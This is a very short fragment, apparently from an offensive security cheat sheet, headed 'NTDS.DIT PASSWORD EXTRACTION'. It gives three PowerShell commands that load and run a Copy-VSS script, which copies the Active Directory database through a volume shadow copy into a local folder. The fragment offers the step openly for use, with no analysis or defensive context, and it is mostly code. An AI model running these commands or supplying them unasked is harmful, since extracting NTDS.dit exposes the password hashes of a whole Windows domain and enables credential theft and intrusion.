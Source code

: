 ## NTDS.DIT PASSWORD EXTRACTION
```
Import-Module .\Copy-VSS.ps1
Copy-VSS
Copy-VSS -DestinationDir C:\ShadowCopy\
```
